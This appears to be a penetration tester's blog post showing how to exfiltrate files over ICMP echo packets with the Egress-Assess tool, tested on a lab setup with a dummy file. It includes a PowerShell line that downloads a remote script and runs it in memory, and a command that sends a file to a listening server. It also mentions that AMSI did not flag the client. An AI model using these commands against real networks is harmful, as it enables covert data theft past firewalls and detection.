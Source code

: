 ```yaml
---
title:  "ICMP Tunneling"
date:   2021-10-10 19:12:00 +0000
categories: [techniques]
tags: [windows, ICMP, Data Extraction]
---
```


I recently had a situation during an engagement where i needed to demonstrate that data could be extracted from the organisation. I wanted to exfil data without going over the internet for security as well as for ease of use duing the engagement and speed.
The VPN when connected, and as expected, didn't allow local access as all routing went through the established tunnel first. However when the tunnel was disconnected the firewall would block all TCP and UDP access but would allow ICMP traffic to local subnets.
This then led me to look into ICMP tunneling. I found various ways of gaining a reverse shell however data exfiltration was more tricky - this is where Egress Assess comes in.   
From the Github Page [(https://github.com/FortyNorthSecurity/Egress-Assess)] - "Egress-Assess is a tool used to test egress data detection capabilities."

Egress-Assess has many use cases for confirming if data can be extracted out of the network including HTTP, SMB, ICMP and more. It also has PowerShell and Python implementations for both server and client. This is good for us as its unliekly that we normally have PowerShell access on Windows based systems.
Another great feature is that the client doesnt require local administrative privileges to run.
During testing it was also noted that as from the time of testing amsi didnt detect the client software as malicous or blocked the traffic as suspicous.

The setup uses a tradtional client / Server design. The server does require local admin rights. My setup was a Debian 10 Box with a Windows 10 client.

Server (Debian) - 192.168.1.50
Client (Win 10) - 192.168.1.


Againg from the Github Page, ICMP - The data is broken up into bytes and base64 encoded and sent over the wire in an ICMP Type 8 ECHO request. the data is placed inside the data field of the packet. The ECHO requests are continuously made to the EgressAsess Server which receives the ICMP request and gathers the data and decodes it.

To start firstly, confirm that you can send and receive ICMP echo requests and Responses bi-directionally.

Once confirmed, on the server, first clone down the repository.

{% include codeHeader.html %}
```
git clone https://github.com/FortyNorthSecurity/Egress-Assess.git
```

Next run the setup.sh from within the setup folder to install the necessasary files.
Fix any errors if you get any before continuing.

```
./setup/.setup.sh
```

Next start the server with the ICMP fetaures enabled:

```
python Egress-Assess.py --server icmp --ip 192.168.1.50

```
If the server has started correctly you should see the following:
![img-description](/images/icmp-4.JPG)
_ICMP Server Started & waiting for connections_

Next you can either download the file onto the client, or run it in memeory directly.

```
IEX (New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/ChrisTruncer/Egress-Assess/master/Invoke-EgressAssess.ps1‘)
```


Next, you have two main options. You either user the built-in audit tools that will create dummy data to mimic sensitive information such as Social Security Numbers / Credit Cards, OR you can specify specfic custom files.

I decided to create my own very simple file to understand how it was being tranferred. I did this by creating a file with some basic text inside on the client.

```
echo "Super Secret Info to Extract" > SuperSecretData.txt
```

We specify the File we want using the "-DataType" argument. ( You could also put "-DataType cc" for CreditCard.

![img-description](/images/icmp-9.JPG)
_Sending a file though an ICMP Packet_


```
Invoke-EgressAssess -client icmp -ip 192.168.1.50 -Datatype 'C:\Videos\SuperSecretData.txt' -Verbose
```

By using the "-Verbose" argument we can see that the connection was sucessful and that the client has indicated that the file was sucessfully sent.

On the server we can see a message confirming that the file has been recieved as expected.

![img-description](/images/icmp-10.JPG)
_File Received on Server_

![img-description](/images/icmp-11.JPG)
_File Received on Server_


To confirm how this worked, we can see in Wireshark that the data is indeed base64 encoded.
![img-description](/images/icmp-12.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_
![img-description](/images/icmp-13.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_

Therefore if we decode the base 64 we can see our message as expected and confirm how the data was transferred.
![img-description](/images/icmp-14.JPG)


